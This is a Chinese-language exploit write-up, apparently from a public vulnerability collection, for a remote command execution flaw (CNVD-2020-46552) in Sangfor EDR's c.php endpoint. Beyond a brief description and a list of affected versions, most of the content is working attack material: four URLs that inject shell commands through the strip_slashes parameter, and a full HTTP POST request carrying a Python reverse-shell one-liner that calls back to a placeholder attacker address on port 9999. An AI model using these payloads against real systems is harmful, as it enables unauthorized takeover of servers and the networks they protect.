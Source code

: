 # 深信服 EDR c.php 远程命令执行漏洞 CNVD-2020-46552

## 漏洞描述

深信服终端检测响应平台是深信服公司开发的一套EDR系统。攻击者利用该漏洞，可向目标服务器发送恶意构造的HTTP请求，从而获得目标服务器的权限，实现远程代码控制执行。

## 漏洞影响

```
EDR v3.2.16
EDR v3.2.17
EDR v3.2.19
```

## 漏洞复现

```plain
https://xxx.xxx.xxx.xxx/tool/log/c.php?strip_slashes=system&limit=whoami
https://xxx.xxx.xxx.xxx/tool/log/c.php?strip_slashes=system&host=whoami
https://xxx.xxx.xxx.xxx/tool/log/c.php?strip_slashes=system&path=whoami
https://xxx.xxx.xxx.xxx/tool/log/c.php?strip_slashes=system&row=whoami
```



![img](images/202202091913721.png)



**反弹shell**



```plain
POST /tool/log/c.php HTTP/1.1
Host: x.x.x.x
Upgrade-Insecure-Requests: 1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Content-Type: application/x-www-form-urlencoded;charset=utf-8
Accept-Language: zh-CN,zh;q=0.9
Content-Length: 256

strip_slashes=system&host=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("xxx.xxx.xxx.xxx",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```



向 **/tool/log/c.php**  POST以下数据即可



```plain
strip_slashes=system&host=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("xxx.xxx.xxx.xxx",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```